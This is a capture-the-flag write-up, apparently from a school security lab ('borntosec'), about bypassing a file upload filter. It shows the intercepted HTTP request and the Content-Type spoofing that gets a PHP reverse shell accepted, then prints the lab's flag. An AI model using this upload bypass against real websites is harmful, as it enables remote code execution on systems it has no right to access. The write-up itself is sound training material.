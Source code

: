# File upload bypass
- involves tricking a vulnerable web application into accepting a malicious file by altering its file extension or metadata
- disguising a malicious script as a harmless file can be used to execute a remote shell or modify system settings
- https://book.hacktricks.xyz/pentesting-web/file-upload

<b>keywords</b>: file upload<br>
<b>attacked site</b>: http://borntosec.42/?page=upload

## Exploit
On the image-upload page, we attempt to upload a reverse shell <code>.php</code> script and disguise it with a <code>.php.jpg</code> extension. We intercept the POST request using <code>Burp Suite</code>:
``` http
POST /?page=upload HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------322401855413912123291879912389
Content-Length: 9758
Origin: http://192.168.56.106
Connection: close
Referer: http://192.168.56.106/?page=upload
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1

-----------------------------322401855413912123291879912389
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------322401855413912123291879912389
Content-Disposition: form-data; name="uploaded"; filename="shell.php.jpg"
Content-Type: application/x-php
```
However, this approach fails because the file is not converted server-side. Instead of changing the file extension, we modify the POST data:
``` http
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg
```
This successfully uploads the file, and we are able to access the flag:
``` 
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## Flag
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
